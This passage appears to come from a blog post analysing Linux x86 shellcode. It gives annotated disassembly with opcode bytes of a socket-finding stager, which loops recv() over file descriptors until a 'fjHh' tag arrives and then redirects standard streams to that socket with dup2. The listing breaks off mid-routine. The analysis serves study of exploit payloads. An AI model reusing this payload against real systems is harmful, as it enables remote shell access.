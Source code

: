                             ; store pointer to 0x00000000 into ESI
00000003  89E6              mov esi,esp

                            ; 4th argument of recv(): flags
                            ; push to the stack the value 0x00000040 (MSG_DONTWAIT)
00000005  6A40              push byte +0x40

                            ; 3rd argument of recv(): len, i.e. the number of bytes to
                            ;   read from the socket
                            ; push to the stack the value: 0x00000a00 (2560 bytes)
00000007  B70A              mov bh,0xa
00000009  53                push ebx

                            ; 2nd argument of recv(): buffer that will store the data
                            ; push to the stack the value: pointer to 0x00000000
0000000A  56                push esi

                            ; 1st argument of recv(): file descriptor of the socket
                            ; push to the stack the value: 0x00000a00
0000000B  53                push ebx

                            ; 3rd argument of socketcall()
                            ; store into ECX the pointer to its arguments
0000000C  89E1              mov ecx,esp

                            ; exchanges BH with BL, so 0x0a00 -&gt; 0x000a
                            ; EBX = 0xa (SYS_RECV)
0000000E  86FB              xchg bh,bl

                            ; 0x0a00 -&gt; 0x0a01
00000010  66FF01            inc word [ecx]

                            ; call socketcall() syscall, which in turn calls recv()
00000013  6A66              push byte +0x66
00000015  58                pop eax
00000016  CD80              int 0x80

                            ; pointer to the buffer storing data received with recv()
                            ; check if the first bytes are the string "fjHh
00000018  813E666A4868      cmp dword [esi],0x68486a66
0000001E  75F0              jnz 0x10</code></pre><figcaption>If the first 4 bytes of the buffer of <code>recv()</code> aren't equal to the string <code>fjHh</code>, <code>recv()</code> is called with a file descriptor that <strong>keeps increasing</strong></figcaption></figure><figure class="kg-card kg-code-card"><pre><code class="language-nasm">                            ; save the file descriptor of the socket into EDI and EBX
00000020  5F                pop edi
00000021  89FB              mov ebx,edi

                            ; set ECX ot 0x00000002
00000023  6A02              push byte +0x2
00000025  59                pop ecx

                            ; call dup2() syscall
00000026  6A3F              push byte +0x3f
00000028  58                pop eax
00000029  CD80              int 0x80
